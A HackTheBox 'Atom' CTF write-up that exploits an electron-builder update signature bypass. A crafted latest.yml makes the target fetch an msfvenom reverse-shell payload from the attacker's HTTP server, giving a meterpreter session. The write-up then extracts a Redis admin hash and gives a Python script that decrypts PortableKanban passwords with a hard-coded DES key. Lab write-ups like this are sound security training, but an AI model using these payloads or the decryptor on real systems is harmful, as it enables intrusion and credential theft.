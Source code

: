 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*


----------------------------------------------------------------------------------------------------

## FOOTHOLD

- Start a nmap scan with default script and version detections and the verbosity flag turned on to see open ports on the fly without having to wait for the scan to finish.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)
- A full port scan reveals redis is active on port `6379` along w winrm at 5985 which shows we can probably use remoting with authentic creds.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)
- We start off by enumerating port 80:
- We find a possible username at the end of the page: MrR3boot@atom.htb.
- From this we infer and add `atom.htb` to our `/etc/hosts` file. Continue browsing the site.
- Directory Bruteforcing with gobuster results in nothing too userful, moving on. 

### Enumerating redis

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)
- Much cant be enumerated since redis requires credentials to authenticate. Checking the format of authentication shows it requires only the password. We could attempt to brute force the password if nothing turns up from smb.

### Enumerating smb

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)
- `smbmap` shows use we have access to 2 shares amongst. **Software_Updates** seems interesting as we have **right access** too to it.
- Using `smbclient` to connect to the share:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)
- Grap the pdf in the share. Looking at the pdf we infer 2 things:
    1. **Built with : electron-builder**
    2. We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here.
- This link explains a suitable exploit: [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
- In short is a vulnerability caused by an unescaped variable. We can trigger a parse error in the script to achieve code execution.
- The exploit bypasses inbuilt signature checks.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

## POST EXPLOITATION

***GETTING user.txt***
- Generate an msfvenom payload of choice . Generate a reverse https executable and then rename it with single quotes.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)
- Rename the file to `d'payload.exe`.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)
- Calculate the hash using the prescribed syntax: 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)
- Setup a listener on msfconsole to catch your shell using `multi/handler`.
- Generate the `latest.yml` file update. Replace the path and the hash.
    ```bash
    version: 1.2.3
    path: http://10.10.14.52/d'payload.exe 
    sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
    ```
- Start a server to host `d'payload.exe` using: `sudo python -m SimpleHTTPServer 80`
- Finally put the update file in one of the client folders on the share using smbclient. Wait for about 15-20 secs and let the update happen. A meterpreter shell is recieved.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)
- A getuid command confirms we are `ATOM\jason`.
- Retrive `user.txt` from jason's dekstop folder.

***GETTING root.txt***
- Enumerate the host with winpeas. Begin by dropping winpeas on the box.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)
- Jason's credentials do not allow `winrm` remoting. A user guide pdf exists which we might have a look at if needed.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)
- Since we already know redis was on,  we find its config file. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)
- We found the password for redis. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)
- Use this [guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.
- Now follow these steps:
    1. Connect to redis using:
    `redis -h 10.10.10.237`
    2. Authenticate using the password:
    `auth pass`
    3. Retrive info on the keyspace using:
    `info keyspace`
    4. We see that there is one databse - number 0 which has 4 keys. View the keys using: `keys *`
    5. We see a bunch of keys. Retrieve the first or last, it might most likely be the administrator's key: `get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)

- We now have the administrator hash.
- Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for further clues.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)
- Googling around it is figured that portable-kanban stores the settings for the encrypted password.
- Searching around for an exploit an encrypted password disclosure vulnerability is found [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/).
- Remove the unnecessary `except` statement.
- The python script:
    ```python
    import json
    import base64
    from des import * 

    #python3 -m pip install des

    try:
        hash = str(input("Enter the Hash : "))
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
    except:
        print("Wrong Hash")
    ```
- Install `des` using: `sudo pip3 install des`
- Run the script, input your hash and get the decrypted hash. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)
- We now finally have the password for the administrator account. 
- Lets try winrm again using these credentials. The credentials are valid.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)
- Grab `root.txt` from the Desktop of the Administrator's account.

----------------------------------------------------------------------------------------------------





